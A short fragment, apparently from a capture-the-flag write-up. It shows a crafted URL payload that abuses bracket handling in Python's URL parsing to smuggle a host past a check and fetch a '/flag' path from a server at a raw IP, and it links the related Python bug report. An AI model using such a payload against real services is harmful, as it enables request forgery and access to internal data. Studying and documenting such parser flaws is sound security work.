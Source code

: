 Payload:

<http://34.131.56.34:9090/?url=http://benign.com\[flag:31337]/flag>

[bug](https://bugs.python.org/issue36338) 